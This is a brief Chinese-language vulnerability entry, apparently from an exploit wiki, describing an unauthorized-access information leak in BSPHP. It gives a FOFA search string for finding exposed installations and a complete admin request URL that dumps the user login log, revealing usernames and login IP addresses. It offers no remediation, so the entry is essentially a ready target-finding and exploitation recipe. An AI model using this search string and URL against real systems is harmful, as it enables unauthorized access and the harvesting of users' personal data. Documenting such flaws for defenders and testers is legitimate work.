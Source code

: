 # BSPHP 未授权访问 信息泄露漏洞

## 漏洞描述

BSPHP 存在未授权访问 泄露用户 IP 和 账户名信息

## 漏洞影响

> [!NOTE]
>
> BSPHP

## FOFA

> [!NOTE]
>
> "BSPHP"

## 漏洞复现

访问如下URL，泄露用户名与登录IP

```
http://xxx.xxx.xxx.xxx/admin/index.php?m=admin&c=log&a=table_json&json=get&soso_ok=1&t=user_login_log&page=1&limit=10&bsphptime=1600407394176&soso_id=1&soso=&DESC=0‘
```

![bsphp-1](http://wikioss.peiqi.tech/vuln/bsphp-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

